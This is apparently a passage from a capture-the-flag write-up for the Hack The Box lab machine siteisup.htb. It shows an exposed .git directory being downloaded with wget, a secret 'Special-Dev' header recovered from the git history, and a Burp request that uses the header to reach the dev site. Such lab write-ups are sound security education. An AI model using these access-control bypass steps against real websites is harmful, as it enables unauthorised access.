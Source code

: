 
Download all of the files .git has to offer.

```console
└──╼ [★]$ wget -r http://siteisup.htb/dev/.git/
```


Note: Before dealing with .git files be sure to run the commands in the parent directory. In this case mine was /siteisup.htb/dev/

We get a couple of different files that seem interesting.

```console
└──╼ [★]$ git ls-files --stage
100644 b317ab51e331425e460e974903462a3dcdccc878 0	.htaccess
100644 940a3179aa882a0b1ac3ff665797818e9aa68a0c 0	admin.php
100644 09e4ccd27f706d9f848cc13581699fdab694ff82 0	changelog.txt
100644 20a2b359105529ee120796c446ff68e6d8a46bfe 0	checker.php
100644 32eeeee1c38e7a3d5766f6919c34843dadaa53b5 0	index.php
100644 3b6b838805812d0b0690699f244aeced9709b5b6 0	stylesheet.css
```

And git log gives us a hint about a header to protect their dev.siteisup.htb site.

```console
└──╼ [★]$ git log
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.
    
```

Checking the git file in the logs against the up to date file it gives us the special header ```Special-Dev: only4dev```

Using this header we can finally access the dev site.

```console
└──╼ [★]$ git diff 8812785e31c879261050e72e20f298ae8c43b565 bc4ba79e596e9fd98f1b2837b9bd3548d04fe7ab
diff --git a/.htaccess b/.htaccess
index b317ab5..44ff240 100644
--- a/.htaccess
+++ b/.htaccess
@@ -2,4 +2,3 @@ SetEnvIfNoCase Special-Dev "only4dev" Required-Header
 Order Deny,Allow
 Deny from All
 Allow from env=Required-Header
```


Next we are going to fire up burpsuite and navigate to dev.siteisup.htb

After burpsuite grabs the page be sure to add in the header anywhere in the field

```
GET / HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Special-Dev: only4dev
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
